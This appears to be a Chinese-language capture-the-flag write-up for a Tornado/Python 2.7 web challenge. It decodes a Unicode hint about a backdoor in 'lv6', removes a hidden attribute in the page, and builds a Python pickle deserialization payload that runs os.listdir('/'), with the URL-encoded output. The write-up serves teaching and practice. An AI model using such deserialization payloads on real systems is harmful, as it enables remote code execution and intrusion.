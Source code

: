 通过分析得知，框架为tornado，Python版本为2.7.x

通过代码审计，得知，这里有个hint

![image-20230831184550320](https://s2.loli.net/2023/08/31/KpGe1MrV9LEJmoY.png)

```
\u8fd9\u7f51\u7ad9\u4e0d\u4ec5\u53ef\u4ee5\u4ee5\u8585\u7f8a\u6bdb\uff0c\u6211\u8fd8\u7559\u4e86\u4e2a\u540e\u95e8\uff0c\u5c31\u85cf\u5728\u006c\u0076\u0036\u91cc
```

### 进行unicode编码

![image-20230831184748378](https://s2.loli.net/2023/08/31/f79oeE3WKQbm2Cr.png)

**这网站不仅可以以薅羊毛，我还留了个后门，就藏在lv6里**



前端代码

![image-20230831185132028](https://s2.loli.net/2023/08/31/6km1WfwRx7vg4sD.png)

通过源码分析一键成为大会员的源码是

![image-20230831185026154](https://s2.loli.net/2023/08/31/ajcAhGigq152sRw.png)

### 把hidden去掉

在前端删除`hidden="hidden"`

![image-20230831185544513](https://s2.loli.net/2023/08/31/egidb7saBcfA34o.png)

## 构建pythonPayload

```
import pickle
import urllib
import os
class Payload(object):
	def __reduce__(self):
		return(os.listdir,('/'))

if __name__ =='__main__':
	tmp = pickle.dumps(Payload())
	print(urllib.quote(tmp))
```

## 进行python反序列化

```
cposix%0Alistdir%0Ap0%0A%28S%27/%27%0Ap1%0Atp2%0ARp3%0A.
```

![image-20230831190643739](https://s2.loli.net/2023/08/31/rMRgH8BChX4NlIO.png)

